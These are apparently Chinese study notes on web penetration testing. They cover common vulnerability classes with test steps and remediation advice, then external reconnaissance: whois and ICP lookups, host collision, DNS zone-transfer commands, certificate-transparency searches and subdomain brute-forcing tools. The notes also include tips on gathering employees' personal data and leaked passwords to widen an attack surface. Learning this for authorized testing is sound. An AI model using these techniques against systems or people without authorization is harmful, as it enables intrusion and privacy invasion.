- 看看是否存在文件遍历的漏洞（如图片路径，再通过../遍历文件）
- 是否使用了存在漏洞的框架（如果没有现成的就自己挖）

```
源代码，文件遍历，漏洞框架
```

### 02漏洞扫描

#### 主机扫描

**Nessus**
经典主机漏扫工具，看看有没有CVE漏洞：


#### web扫描

- AWVS（Acunetix | Website Security Scanner）扫描器


扫描器少扫，危害较大，可以手测着

### 03渗透测试

#### 弱口令漏洞

**漏洞描述**
目标网站管理入口（或数据库等组件的外部连接）使用了容易被猜测的简单字符口令、或者是默认系统账号口令。

**渗透测试**
**① 如果不存在验证码，则直接使用相对应的弱口令字典使用burpsuite 进行爆破**
**② 如果存在验证码，则看验证码是否存在绕过、以及看验证码是否容易识别**

```
是否存在单一报错:比如密码错误，账号错误这种

是否存在可以无限次的试错，就可以无限次的报错

验证码是否可以重复使用
```

风险评级：高风险

**安全建议**

```
① 默认口令以及修改口令都应保证复杂度，比如：大小写字母与数字或特殊字符的组合，口令长度不小于8位等
② 定期检查和更换网站管理口令
```


#### 文件下载漏洞

**漏洞描述**
一些网站由于业务需求，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，则恶意用户就能够查看或下载任意的文件，可以是**源代码文件、敏感文件**等。

**渗透测试**
**① 查找可能存在文件包含的漏洞点，比如js，css等页面代码路径**
**② 看看有没有文件上传访问的功能**
**③ 采用../来测试能否夸目录访问文件**

风险评级：高风险

**安全建议**

```
① 采用白名单机制限制服务器目录的访问，以及可以访问的文件类型(小心被绕过)
② 过滤【./】等特殊字符
③ 采用文件流的访问返回上传文件（如用户头像），不要通过真实的网站路径。
```

**示例：**tomcat，默认关闭路径浏览的功能：

```
<param-name>listings</param-name> 
<param-value>false</param-value>
```


#### 任意文件上传漏洞

**漏洞描述**
目标网站允许用户向网站直接上传文件，但未对所上传文件的类型和内容进行严格的过滤。

**渗透测试**
**① 收集网站信息，判断使用的语言（PHP，ASP，JSP）**
**② 过滤规则绕过方法：文件上传绕过技巧**

风险评级：高风险

**安全建议**

```
① 对上传文件做有效文件类型判断，采用白名单控制的方法，开放只允许上传的文件型式；
② 文件类型判断，应对上传文件的后缀、文件头、图片类的预览图等做检测来判断文件类型，同时注意重命名（Md5加密）上传文件的文件名避免攻击者利用WEB服务的缺陷构造畸形文件名实现攻击目的；
③ 禁止上传目录有执行权限；
④ 使用随机数改写文件名和文件路径，使得用户不能轻易访问自己上传的文件。
```


#### 命令注入漏洞

漏洞描述
目标网站未对用户输入的字符进行特殊字符过滤或合法性校验，**允许用户输入特殊语句，导致各种调用系统命令的web应用，会被攻击者通过命令拼接、绕过黑名单等方式，在服务端运行恶意的系统命令**。

渗透测试

风险评级：高风险

安全建议

```
① 拒绝使用拼接语句的方式进行参数传递；
② 尽量使用白名单的方式（首选方式）；
③ 过滤危险方法、特殊字符，如：【|】【&】【；】【'】【"】等
```


#### SQL注入漏洞

**漏洞描述**
目标网站未对用户输入的字符进行特殊字符过滤或合法性校验，允许用户输入特殊语句查询后台数据库相关信息

**渗透测试**
**① 手动测试：判断是否存在SQL注入，判断是字符型还是数字型，是否需要盲注**
**② 工具测试：使用sqlmap等工具进行辅助测试**

风险评级：高风险

**安全建议**

```
① 防范SQL注入攻击的最佳方式就是将查询的逻辑与其数据分隔，如Java的预处理，PHP的PDO
② 拒绝使用拼接SQL的方式
```


#### 跨站脚本漏洞

**漏洞描述**
当应用程序的网页中包含不受信任的、未经恰当验证或转义的数据时，或者使用可以创建 HTML或JavaScript 的浏览器 API 更新现有的网页时，就会出现 XSS 缺陷。XSS 让攻击者能够在受害者的浏览器中执行脚本，并劫持用户会话、破坏网站或将用户重定向到恶意站点。

**三种XSS漏洞：**
**① 存储型：用户输入的信息被持久化，并能够在页面显示的功能，都可能存在存储型XSS，例如用户留言、个人信息修改等。**
**② 反射型：URL参数需要在页面显示的功能都可能存在反射型跨站脚本攻击，例如站内搜索、查询功能。**
**③ DOM型：涉及DOM对象的页面程序，包括：document.URL、document.location、document.referrer、window.location等**

**渗透测试**
**存储型，反射型，DOM型**

风险评级：高风险   

**安全建议**

```
① 不信任用户提交的任何内容，对用户输入的内容，在后台都需要进行长度检查，并且对【<】【>】【"】【'】【&】等字符做过滤
② 任何内容返回到页面显示之前都必须加以html编码，即将【<】【>】【"】【'】【&】进行转义。
```


#### **跨站请求伪造漏洞**

**漏洞描述**
CSRF，全称为Cross-Site Request Forgery，跨站请求伪造，是一种网络攻击方式，它可以在用户毫不知情的情况下，以用户的名义伪造请求发送给被攻击站点，从而在未授权的情况下进行权限保护内的操作，如修改密码，转账等。

**渗透测试**

风险评级：中风险（如果相关业务极其重要，则为高风险）

**安全建议**

```
① 使用一次性令牌：用户登录后产生随机token并赋值给页面中的某个Hidden标签，提交表单时候，同时提交这个Hidden标签并验证，验证后重新产生新的token，并赋值给hidden标签；
② 适当场景添加验证码输入：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串；
③ 请求头Referer效验，url请求是否前部匹配Http(s)://ServerHost
④ 关键信息输入确认提交信息的用户身份是否合法，比如修改密码一定要提供原密码输入
⑤ 用户自身可以通过在浏览其它站点前登出站点或者在浏览器会话结束后清理浏览器的cookie；
```


#### 内部后台地址暴露

**漏洞描述**
一些**仅被内部访问的地址，对外部暴露**了，如：**管理员登陆页面；系统监控页面；API接口描述页面等**，这些会导致信息泄露，后台登陆等地址还可能被爆破。

**渗透测试**
**① 通过常用的地址进行探测，如login.html，manager.html，api.html等；**
**② 可以借用burpsuite和常规页面地址字典，进行扫描探测**

风险评级：中风险

**安全建议**

```
① 禁止外网访问后台地址
② 使用非常规路径（如对md5加密）
```


#### 信息泄露漏洞

**漏洞描述**
① 备份信息泄露：目标网站未及时删除编辑器或者人员在编辑文件时，产生的临时文件，或者相关备份信息未及时删除导致信息泄露。
② 测试页面信息泄露：测试界面未及时删除，导致测试界面暴露，被他人访问。
③ 源码信息泄露：目标网站文件访问控制设置不当，WEB服务器开启源码下载功能，允许用户访问网站源码。
④ 错误信息泄露：目标网站WEB程序和服务器未屏蔽错误信息回显，页面含有CGI处理错误的代码级别的详细信息，例如SQL语句执行错误原因，PHP的错误行数等。
⑤ 接口信息泄露：目标网站接口访问控制不严，导致网站内部敏感信息泄露。

**渗透测试**
**① 备份信息泄露、测试页面信息泄露、源码信息泄露，测试方法：使用字典，爆破相关目录，看是否存在相关敏感文件**
**② 错误信息泄露，测试方法：发送畸形的数据报文、非正常的报文进行探测，看是否对错误参数处理妥当。**
**③ 接口信息泄露漏洞，测试方法：使用爬虫或者扫描器爬取获取接口相关信息，看目标网站对接口权限是否合理**

风险评级：一般为中风险，如果源码大量泄漏或大量客户敏感信息泄露。

**安全建议**

```
① 备份信息泄露漏洞：删除相关备份信息，做好权限控制
② 测试页面信息泄露漏洞：删除相关测试界面，做好权限控制
③ 源码信息泄露漏洞：做好权限控制
④ 错误信息泄露漏洞：将错误信息对用户透明化，在CGI处理错误后可以返回友好的提示语以及返回码。但是不可以提示用户出错的代码级别的详细原因
⑤ 接口信息泄露漏洞：对接口访问权限严格控制
```


#### 失效的身份认证

**漏洞描述**
通常，通过错误使用应用程序的身份认证和会话管理功能，攻击者能够破译密码、密钥或会话令牌， 或者利用其它开发缺陷来暂时性或永久性冒充其他用户的身份。

**渗透测试**
**① 在登陆前后观察，前端提交信息中，随机变化的数据，总有与当前已登陆用户进行绑定的会话唯一标识，常见如cookie**
**② 一般现在网站没有那种简单可破解的标识，但是如果是跨站认证，单点登录场景中，可能为了开发方便而简化了身份认证**

风险评级：高风险

**安全建议**

```
① 使用强身份识别，不使用简单弱加密方式进行身份识别；
② 服务器端使用安全的会话管理器，在登录后生成高度复杂的新随机会话ID。会话ID不能在URL中，可以安全地存储，在登出、闲置超时后使其失效。
```


#### 失效的访问控制

**漏洞描述**
未对通过身份验证的用户实施恰当的访问控制。攻击者可以利用这些缺陷访问未经授权的功能或数据，例如：访问其他用户的帐户、查看敏感文件、修改其他用户的数据、更改访问权限等。

**渗透测试**
**① 登入后，通过burpsuite 抓取相关url 链接，获取到url 链接之后，在另一个浏览器打开相关链接，看能够通过另一个未登入的浏览器直接访问该功能点。**
**② 使用A用户登陆，然后在另一个浏览器使用B用户登陆，使用B访问A独有的功能，看能否访问。**

风险评级：高风险

**安全建议**

```
① 除公有资源外，默认情况下拒绝访问非本人所有的私有资源；
② 对API和控制器的访问进行速率限制，以最大限度地降低自动化攻击工具的危害；
③ 当用户注销后，服务器上的Cookie，JWT等令牌应失效；
④ 对每一个业务请求，都进行权限校验。
```


#### 安全配置错误

**漏洞描述**
应用程序缺少适当的安全加固，或者云服务的权限配置错误。
① 应用程序启用或安装了不必要的功能（例如：不必要的端口、服务、网页、帐户或权限）。
② 默认帐户的密码仍然可用且没有更改。
③ 错误处理机制向用户披露堆栈跟踪或其他大量错误信息。
④ 对于更新的系统，禁用或不安全地配置最新的安全功能。
⑤ 应用程序服务器、应用程序框架（如：Struts、Spring、ASP.NET）、库文件、数据库等没有进行相关安全配置。

**渗透测试**
**先对应用指纹等进行信息搜集，然后针对搜集的信息，看相关应用默认配置是否有更改，是否有加固过；端口开放情况，是否开放了多余的端口；**

风险评级：中风险

**安全建议**

```
搭建最小化平台，该平台不包含任何不必要的功能、组件、文档和示例。移除或不安装不适用的功能和框架。在所有环境中按照标准的加固流程进行正确安全配置。
```


#### 使用含有已知漏洞组件

**漏洞描述**
使用了不再支持或者过时的组件。这包括：OS、Web服务器、应用程序服务器、数据库管理系统（DBMS）、应用程序、API和所有的组件、运行环境和库。

**渗透测试**
**① 根据前期信息搜集的信息，查看相关组件的版本，看是否使用了不在支持或者过时的组件。一般来说，信息搜集，可通过http返回头、相关错误信息、应用指纹、端口探测（Nmap）等手段搜集。**
**② Nmap等工具也可以用于获取操作系统版本信息**
**③ 通过CVE，CNVD等平台可以获取当前组件版本是否存在漏洞**

风险评级：按照存在漏洞的组件的安全风险值判定当前风险。

**安全建议**

```
① 移除不使用的依赖、不需要的功能、组件、文件和文档；
② 仅从官方渠道安全的获取组件(尽量保证是最新版本)，并使用签名机制来降低组件被篡改或加入恶意漏洞的风险；
③ 监控那些不再维护或者不发布安全补丁的库和组件。如果不能打补丁，可以考虑部署虚拟补丁来监控、检测或保护。
```

# 7.18

学习文章：

```
https://forum.butian.net/share/1976
```

# 外网信息搜集

### 工具

```
工具、网站	备注
1、爱站、站长工具	
Whois、备案号、权重、公司名称等

2、天眼查、企查查、搜狗搜索引擎	
公司注册域名、微信公众号、APP、软件著作权等

3、ZoomEye、Shodan、FOFA、0.Zone、quake	
网络空间资产搜索引擎

4、ENScanGo、ICP备案	
主域名收集

5、OneForAll、Layer、Rapid7的开源数据项目、ctfr、EyeWitness	
子域名收集

6、Kscan、ShuiZe_0x727、ARL灯塔、Goby	
自动化、批量信息收集

7、Bufferfly、Ehole	
资产处理、信息筛选

8、dnsdb、CloudFlair	
CDN相关

9、VirusTotal、微步、ip2domain	C段、
域名/ip情报信息

10、Nmap、Masscan	
端口服务信息

11、Google Hacking、dirsearch、URLFinder	
WEB站点信息、api接口等

12、wafw00f	
waf识别

13、云悉、潮汐、WhatWeb	
在线CMS识别

14、七麦、小蓝本	
APP资产

15、ApkAnalyser	
App敏感信息

16、乌云漏洞库、CNVD、waybackurls	
历史漏洞、历史资产等

17、n0tr00t/Sreg、reg007	
个人隐私信息

18、GitDorker	
资产信息、源码泄露

19、theHarvester、Snov.io	
邮箱信息收集

20、OSINT开源情报和侦擦工具	
开源情报资源导航

21、anti-honeypot、Honeypot Hunter	
蜜罐识别
```

## 0x01主域名信息

```
域名用来代替IP使其更容易被用户找到、记住。

对于"非用户"来说，可通过域名信息获取：主域名、存活站点、关联信息、钓鱼信息。为漏洞挖掘提供数据支撑。
```

##### ICP备案

**国内服务器线上运营都必须先办理ICP备案后才能上线。**


##### 01备案信息查询：

###### 01、**ICP备案查询**

```
https://beian.miit.gov.cn/#/Integrated/index
```

###### 02、**公安部备案查询**


###### 03、**备案反查主域名**

反查可分为备案域名查询和未备案域名查询。

**备案域名查询**

第三方站点

```
ICP备案查询-站长工具
SEO综合查询
```


```
- 公安部备案查询
- 企业信息查询网站
```

**未备案域名查询**

已知网站信息获取（如，网站站点导航可能会包含未备案的站点）


网络空间引擎进行证书、图标关联搜索。例如：fofa指定搜索规则 `is_domain=true`，即表示只返回域名*(个人感觉国外shodan、国内fofa)*。


##### 02whois（注册人

通过whois信息可以获取注册人的关键信息。如注册商、联系人、联系邮箱、联系电话，也可以对注册人、邮箱、电话反查域名，也可以通过搜索引擎进一步挖掘域名所有人的信息。深入可社工、可漏洞挖掘利用。

**站长之家**

```
http://whois.chinaz.com/
```


```
Bugscanner
http://whois.bugscaner.com

国外BGP
https://bgp.he.net

who.is
https://who.is/

IP138网站
https://site.ip138.com/

域名信息查询-腾讯云
https://whois.cloud.tencent.com/

ICANN LOOKUP
https://lookup.icann.org/

狗狗查询
https://www.ggcx.com/main/integrated
```


```
ps:

部分whois查询存在隐藏信息，可以在其他站点查询。
whois主要还是注册商、注册人、邮件、DNS 解析服务器、注册人联系电话。
由于GDRP，ICANN要求所有域名注册商必须对域名whois隐私信息进行保护，所以whois信息越来越少……但还是会存在一些whois域名系统是旧缓存数据。
```

##### 03ip反查（一ip其他域名

```
ps:

目标可能存在多个域名绑定于同一ip上，通过ip反查可以获取到其他域名信息。比如旁站。

通过获取目标真实IP后，进行反查的旁站更真实。
查询站点需复杂性，单一的站点会有反查不出信息的可能。

大型企业不同的站点收录可能不一样
个人推荐3个不同站点反查
```

**如何查询**

**在线查询网站**：

```
同IP网站查询，同服务器网站查询 - 站长工具
Dnslytics
iP或域名查询
```

- [同IP网站查询，同服务器网站查询 - 站长工具](http://s.tool.chinaz.com/same)
- [Dnslytics](https://dnslytics.com/)
- [iP或域名查询](https://site.ip138.com/)


**搜索引擎**：

- shodan
- bing
- fofa

##### 04HOST碰撞（域名ip捆绑碰撞

信息收集过程中，往往会因为配置错误或是未及时回收等原因，存在一些隐形资产。直接访问的话会出现访问限制的问题，如下：

**ip访问响应多为：nginx、4xx、500、503、各种意义不明的Route json提示等**


```
域名解析后到内网地址

有服务器真实 IP，但找不到内网域名。
```

究其原因，大多数是因为中间件对ip访问做限制，不能通过ip直接访问，必须使用域名进行访问。如果域名解析记录里也找不到域名记录，这时就可以用到HOST碰撞技术，**通过将域名和IP进行捆绑碰撞**，一旦匹配到后端代理服务器上的域名绑定配置，就可以访问到对应的业务系统，从而发现隐形资产。

**手法：**

使用收集到的目标IP、爬虫或自定义的内部域名（内网host池），作为字典，通过脚本进行碰撞，脚本会自动模拟绑定ip与host进行请求交互，通过标题或响应大小判断结果。只要字典够强大，总能出一两个，爆破时最好也试下TLS，部分主机会使用TLS的。

验证结果，只需修改本机`host文件`绑定host与ip后，看访问变化。

**自动化**：

```
灯塔
水泽
https://github.com/cckuailong/hostscan
https://github.com/fofapro/Hosts_scan
https://github.com/smxiazi/host_scan
```

- [灯塔](https://github.com/TophantTechnology/ARL)
- [水泽](https://github.com/0x727/ShuiZe_0x727)
- https://github.com/cckuailong/hostscan
- https://github.com/fofapro/Hosts_scan
- https://github.com/smxiazi/host_scan


##### 05DNS共享记录（自建dns

**关于DNS**

DNS（Domain Name Server，域名服务器）是进行域名(domain name)和与之相对应的IP地址 (IP address)转换的服务器。DNS中保存了一张域名(domain name)和与之相对应的IP地址 (IP address)的表，以解析消息的域名，即保存了**IP地址**和**域名**的相互映射关系。域名是Internet上某一台计算机或计算机组的名称，用于在数据传输时标识计算机的电子方位（有时也指地理位置）。域名是由一串用点分隔的名字组成的，通常包含组织名，而且始终包括两到三个字母的后缀，以指明组织的类型或该域所在的国家或地区。也正是因为DNS的存在，访问相应服务只需记住域名，不需要记住无规则的ip地址。

- DNS服务器端口: tcp/udp 53。
- 常用DNS记录：

| 记录类型   | 说明                                                         |
| :--------- | :----------------------------------------------------------- |
| A 记录     | 将域名指向一个 IP 地址（外网地址）。                         |
| CNAME 记录 | 将域名指向另一个域名，再由另一个域名提供 IP 地址（外网地址）。 |
| MX 记录    | 电子邮件交换记录，记录一个邮件域名对应的IP地址，设置邮箱，让邮箱能收到邮件。 |
| NS 记录    | 域名服务器记录，记录该域名由哪台域名服务器解析。如将子域名交给其他 DNS 服务商解析。 |
| AAAA 记录  | 将域名指向一个 IPv6 地址。                                   |
| SRV 记录   | 用来标识某台服务器使用了某个服务，常见于微软系统的目录管理。 |
| TXT 记录   | 对域名进行标识和说明，绝大多数的 TXT 记录是用来做 SPF 记录（反垃圾邮件）。 |

**利用价值**

可以通过查询共享DNS服务器的主机来获取到相关的域名，一般多是用于自建DNS服务器。如果是公开的DNS服务器，那么查询的效果将会特别差。

**手法**

- 查询目标是否存在自建的NS服务器

```bash
nslookup -query=ns baidu.com 8.8.8.8
```


- 将获取到的NS服务器带入 **https://hackertarget.com/find-shared-dns-servers/** 进行查询


##### 06Google

**直接搜索目标相关关键内容来查询**，比如公司名、备案、引用的特殊js等。

搜索引擎很多，这里以Google为例：


##### 07配置信息

由于信息泄露问题，某些配置或文件会存储一些目标相关的域名，如子域名、代码托管平台等，一般来说存储信息有限且不应公网存在此类文件。

**策略文件域名信息问题如：**

- crossdomain.xml文件
  - 通常域名直接拼接crossdomain.xml路径


**sitemap文件**

站点地图文件，常见如：

- sitemap.xml、sitemap.txt、sitemap.html、sitemapindex.xml、sitemapindex.xml路径


**策略配置方面如**：

- 内容安全策略（CSP，Content Security Policy)

这是一种声明的安全机制，可以让网站运营者能够控制遵循CSP的用户代理（通常是浏览器）的行为。通过控制要启用哪些功能，以及从哪里下载内容，可以减少网站的攻击面。CSP的主要目的是防御跨站点脚本（cross-ste scripting，XSS）攻击。例如，CSP可以完全禁止内联的JavaScript，并且控制外部代码从哪里加载。它也可以禁止动态代码执行。禁用了所有的攻击源，XSS攻击变得更加困难。CSP中的关键字有default-src、img-src、object-src和script-src。其中*-src可能会存在域名信息。

关键点：

HTTP header的`Content-Security-Policy`属性


##### 08众测

补天、漏洞银行、先知、hackerone等众测的广商提供的域名测试范围。

比如hackerone：alibaba


##### 09企业资产信息

通过企业名称拓展查询目标企业的组织架构、股权信息、股权穿透图、子公司、孙公司、对外投资50%等目标信息，获取其产品业务、域名、邮箱资产范围等，扩大攻击面。大概企业资产收集点如下：

企业数据：

```
邮箱收集
邮箱查询：https://hunter.io/

企业架构画像

直属单位、机构设置、供应商*（相关合同、人员、系统、软件等）*、合作商等

业务信息：证券、快递、专用网、院校等


```

人员数据，如统计、职责、部门、人员历史泄露密码、浏览习性等

设备信息：

```
- WiFi
- 常用密码、部门设备信息
- OA/erp/crm/sso/mail/vpn等入口
- 网络安全设备（waf,ips,ids,router等统计）
- 内部使用的代码托管平台(gitlab、daocloud等)、bug管理平台、监控平台等
- 服务器域名资产
- site:xxx
```

###### **01股权投资信息**

一般要求50%持股或者100% 持股都可以算测试目标。

天眼查：

```
https://www.tianyancha.com/
```




企查查

```
https://www.qcc.com/
```

钉钉企典

```
https://www.dingtalk.com/qidian/home?spm=a213l2.13146415.4929779444.89.7f157166W6H4YZ
```

###### **02公众号信息**

**搜狗搜索引擎**

https://wx.sogou.com/


企查查

https://www.qcc.com/


```
微信app

支付宝app
```

###### **03应用信息**

天眼查

https://www.tianyancha.com/


七麦数据

https://www.qimai.cn/


企查查

https://www.qcc.com/

小蓝本

https://www.xiaolanben.com/pc


点点数据

https://app.diandian.com/


豌豆荚

https://www.wandoujia.com/

方便获取APP历史版本


###### **04关于工具**

https://github.com/wgpsec/ENScan_GO

由狼组安全团队的 Keac 师傅写的专门用来解决企业信息收集难的问题的工具，可以一键收集目标及其控股公司的 ICP 备案、APP、小程序、微信公众号等信息然后聚合导出。

# 7.19

## 0x02子域名信息

子域名一般是父级域名的下一级。一般企业主站域名的防护都是重点，安全级别较高，突破难度较大，而企业可能会有数十个甚至更多的子域名应用，因为数量众多，安全因素和成本投入多，相应的防护也没有那么及时有效。子域名往往是攻击突破口，通过子域名发现更多的可能性或是进行迂回攻击。

**子域名信息点：**

子域名包含一些常见资产类型：办公系统，邮箱系统，论坛，商城等。而其他管理系统，网站管理后台等较少出现在子域名中。

一般情况下，相同类型漏洞可能存在同一组织的不同的域名/应用程序中。

子域名系统维护成本、用户群体等，一般少于主域名，会存在一些版本迭代、配置不安全、弱密码账号管理策略等。

子域名探测发现更多的服务，增加漏洞发现的可能性。

##### 01枚举爆破

手法介绍

要说简单粗暴还是子域名枚举爆破，通过不断的拼接`字典`中的子域名前缀去枚举域名的A记录进行`DNS解析`，如果成功解析说明子域名存在。如xxx.com拼接前缀test组合成test.xxx.com，再对其进行验证。但是域名如果使用`泛解析`的话，则会导致所有的域名都能成功解析，使得子域名枚举变得不精准。

`nslookup`验证下~

- 泛解析域名，成功解析不存在的域名。


- 普通解析，不存在的域名解析会失败。


```
泛解析：使用通配符 * 来匹配所有的子域名，从而实现所有的子级域名均指向相同网站空间。

会存在域名劫持、域名恶意泛解析风险

会主站被降权，可能被恶意利用，占用大量流量

关于恶意解析：

https://cloud.tencent.com/developer/article/1494534?from=article.detail.1874625

混合泛解析：在泛解析的基础上，增加一个限制，使记录可以按照需求进行分类。

https://cloud.tencent.com/document/product/302/9073

https://github.com/Q2h1Cg/dnsbrute/blob/v2.0/dict/53683.txt)
```

**关于泛解析**

那么域名使用了泛解析怎么去解决呢？

```
一般有两种：

黑名单ip：
通过获取一个不存在的子域名相应解析IP，来记录标记黑名单ip，再爆破字典时，解析到的IP在这个黑名单ip中，则跳过，不存在就继续处理。
或是记录相同的，保留一到两个。

TTL
在权威 DNS 中，泛解析记录的 TTL 肯定是相同的，如果子域名记录相同，但 TTL 不同，那这条记录可以说肯定不是泛解析记录。

响应内容
牺牲速度，先获取一个绝对不存在域名的响应内容，再遍历获取每个字典对应的子域名的响应内容，通过和不存在域名的内容做相似度比对，来枚举子域名。
```

**枚举爆破常用工具**

在线查询：

- https://phpinfo.me/domain/
  - 速度不错
- https://chaziyu.com/
  - 子域、备案都可以查

其他：

- [Layer 子域名挖掘机](https://github.com/euphrat1ca/LayerDomainFinder)

  - 可视化，取决于字典强度，易上手，就是容易崩溃

- [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)

  - 老牌DNS爆破工具，稳定快速~
  - 暂不支持批量
  - **怼泛解析**：超过10个域名指向同一IP，则此后发现的其他指向该IP的域名将被丢弃，该方法可能存在误删，但简单有效。

- [OneForAll](https://github.com/shmilylty/OneForAll)

  - 收集姿势挺全的，就是依赖多，一直再更新
  - OneForALL + ESD + JSfinder~~
  - **怼泛解析**：oneforall会首先访问一个随机的并不存在的域，通过返回结果判断是否存在泛解析，确定存在泛解析以后，程序会开始不断的循环产生随机域名，去向服务器查询，将每次查询到的IP和TTL记录下来，直到大部分的IP地址出现次数都大于两次，则IP黑名单的收集结束，在得到了IP黑名单以后，oneforall接下来会将自己的字典中的每一项和要指定查询的域名进行拼接。在爆破过程中根据IP黑名单进行过滤。但这种宽泛的过滤容易导致漏报，所以oneforall将 TTL 也作为黑名单规则的一部分，评判的依据是：在权威 DNS 中，泛解析记录的 TTL 肯定是相同的，如果子域名记录相同，但 TTL 不同，那这条记录可以说肯定不是泛解析记录。

- [knock](https://github.com/guelfoweb/knock)

  - 支持查询VirusTotal，速度快，结果一般
  - VirusTotal API绕过泛解析

- [ESD](https://github.com/FeeiCN/ESD)

  - 收集方法多，爆破速度极快，接口少
  - **怼泛解析**：基于文本相似度过滤泛解析域名

- [**ksubdomain**](https://github.com/boy-hack/ksubdomain)

  - 无状态的子域名爆破工具,支持重放，速度不错
  - 结合其他工具，一键子域名搜集验证：

  https://cn-sec.com/archives/1178685.html

- [xray 高级版](https://github.com/chaitin/xray/releases)

  - 效率可以，联动很舒服


**关于字典**

```
字典这块引用下https://feei.cn/esd/
```

**DNS服务商的字典**一般来说最准确有效，如：DNSPod公布的使用最多的子域名：[dnspod-top2000-sub-domains.txt](https://github.com/DNSPod/oh-my-free-data/blob/master/src/dnspod-top2000-sub-domains.txt)

**普通字典**：一些基础组合。

- 单字母：f.feei.cn（大都喜欢短一点的域名，单字符的最为常见）
- 单字母+单数字：s1.feei.cn
- 双字母：sd.feei.cn（大都喜欢业务的首字母缩写）
- 双字母+单数字：ss1.feei.cn
- 双字母+双数字：ss01.feei.cn
- 三字母：[www.feei.cn](https://forum.butian.net/share/www.feei.cn)（部分业务名称为三个字）
- 四字母：webp.feei.cn（部分业务名称为四个字）
- 单数字：1.feei.cn
- 双数字：11.feei.cn
- 三数字：666.feei.cn

**常用词组**：常见的中英文词组。

- fanyi.feei.cn（中）tranlate.feei.cn（英）
- huiyuan.feei.cn（中）member.feei.cn（英）
- tupian.feei.cn（中）picture.feei.cn（英）

**爆破工具的字典**: 可结合整理过的字典

- [subbrute](https://github.com/TheRook/subbrute): [names_small.txt](https://github.com/TheRook/subbrute/blob/master/names_small.txt)
- [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute): [subnames_full.txt](https://github.com/lijiejie/subDomainsBrute/blob/master/dict/subnames_full.txt)
- [dnsbrute](https://github.com/Q2h1Cg/dnsbrute): [53683.txt](https://github.com/Q2h1Cg/dnsbrute/blob/v2.0/dict/53683.txt)

##### 02DNS传送域

DNS服务器分为：主服务器、备份服务器和缓存服务器。

在主备服务器之间同步数据库，需要使用“DNS域传送”的一种DNS事务。**域传送**是指备份服务器从主服务器上复制数据，然后更新自身的数据库，以达到数据同步的目的，这样是为了增加冗余，一旦主服务器出现问题可直接让备份服务器做好支撑工作。

若DNS配置不当，可能导致匿名用户获取某个域的所有记录。造成整个网络的拓扑结构泄露给潜在的攻击者，包括一些安全性较低的内部主机，如测试服务器。凭借这份网络蓝图，攻击者可以节省很少的扫描时间。

- 错误配置：只要收到`axfr`请求就进行域传送，刷新数据。

**检测方法：**

`axfr` 是q-type类型的一种，axfr类型是`Authoritative Transfer`的缩写，指请求传送某个区域的全部记录。只要欺骗dns服务器发送一个`axfr`请求过去，如果该dns服务器上存在该漏洞，就会返回所有的解析记录值。

nslookup

```
# 查询nameserver  
nslookup -type=ns nhtc.wiki 8.8.8.8  
# 指定nameserver，列举域名信息  
nslookup  
# Server 命令参数设定查询将要使用的DNS服务器  
server cloudy.dnspod.net   
#  Ls命令列出某个域中的所有域名  
ls nhtc.wiki
```


无法列出域，不存在此漏洞

**Dig**

```bash
# 找到NS服务器  
dig nhtc.wiki ns
```


```bash
# 发送axfr请求  
 dig axfr @cloudy.dnspod.net nhtc.wiki
```


**其他**

nmap：

```bash
nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=nhtc.wiki -p 53 -Pn cloudy.dnspod.net
```

python

```bash
# DNS库  
xfr = dns.query.xfr(where=server, zone=self.domain, timeout=5.0, lifetime=10.0)  
zone = dns.zone.from\_xfr(xfr) 
```

一般情况下，DNS服务器配置都正常，关闭了域传送或设置白名单，利用率低。推荐交给自动化。

##### 03证书透明度收集子域

证书透明度（Certificate Transparency）是谷歌力推的一项拟在确保证书系统安全的透明审查技术。其目标是提供一个开放的审计和监控系统，可以让任何[域名](https://dnspod.cloud.tencent.com/)的所有者，确定CA证书是否被错误签发或恶意使用。TLS的缺点是你的浏览器隐性包含了一个大型受信任CA列表。如果任何这些CA恶意为域创建新证书，则你的浏览器都会信任它。CT为TLS证书信任提供了额外的安全保障：即公司可以监控谁为他们拥有的域创建了证书。此外，它还允许浏览器验证给定域的证书是否在公共日志记录中。

————————[Google 的证书透明度项目](https://www.certificate-transparency.org/)

因为证书透明性是开放架构，可以检测由证书颁发机构错误颁发的 SSL 证书，也可以识别恶意颁发证书的证书颁发机构，且任何人都可以构建或访问，CA证书又包含了`域名、子域名、邮箱`等敏感信息，价值就不言而喻了。

**收集方法：**

一般使用 CT 日志搜索引擎进行域名信息收集，因为是日志收集，只增不减，可能会有一些失效域名。

**在线查询：**

- [crtsh](https://crt.sh/)


- [entrust](https://www.entrust.com/ct-search/)
- [censys](https://censys.io/certificates)
- [facebook（需要登录）](https://developers.facebook.com/tools/ct/)
- [spyse](https://spyse.com/search/certificate)
- [certspotter（每小时免费查100次）](https://sslmate.com/certspotter/api/)

**浏览器查询**

点击浏览器网站小锁-->安全连接-->更多信息-->查看证书-->查看主题替代名称处，有时候会有主域名和子域名信息。


**工具：**

- [ctfr](https://github.com/UnaPibaGeek/ctfr)
- [OneForAll](https://github.com/shmilylty/OneForAll)

##### 04公开数据集

利用已有公开的全网扫描数据集，对子域名信息进行收集。

- [Rapid7的开源数据项目](https://opendata.rapid7.com/)
- [threatcrowd](https://www.threatcrowd.org/)

收集方法：

- [Find DNS Host Records (Subdomains) | hackertarget](https://hackertarget.com/find-dns-host-records/)
- [netcraft](https://searchdns.netcraft.com/)
- 命令进行快速查找

```bash
wget https://scans.io/data/rapid7/sonar.fdns\_v2/20170417-fdns.json.gz  
cat 20170417\-fdns.json.gz | pigz \-dc | grep ".target.org" | jq\`
```

##### 05第三方聚合服务

通过第三方平台提供的一些服务，快速发现子域名信息。

- [VirusTotal](https://www.virustotal.com/gui/home/search)

> VirusTotal会运行DNS复制功能，通过存储用户访问URL时执行的DNS解析来构建数据库。


- [Find DNS Host Records | Subdomain Finder | HackerTarget.com](https://hackertarget.com/find-dns-host-records/)
- [netcraft](https://searchdns.netcraft.com/)
- [DNSdumpster.com](https://dnsdumpster.com/)
- [域名查iP 域名解析 iP查询网站 iP反查域名 iP反查网站 同一iP网站 同iP网站域名iP查询](https://site.ip138.com/)
- [threatminer](https://www.threatminer.org/index.php)
- [Subdomain Finder](https://spyse.com/tools/subdomain-finder)
- [threatbook（需要高级权限）](https://x.threatbook.cn/)
- [子域名查询 - 站长工具（需要登录）](http://tool.chinaz.com/subdomain/?domain=)
- [namecheap](https://decoder.link/)
- 其他工具：
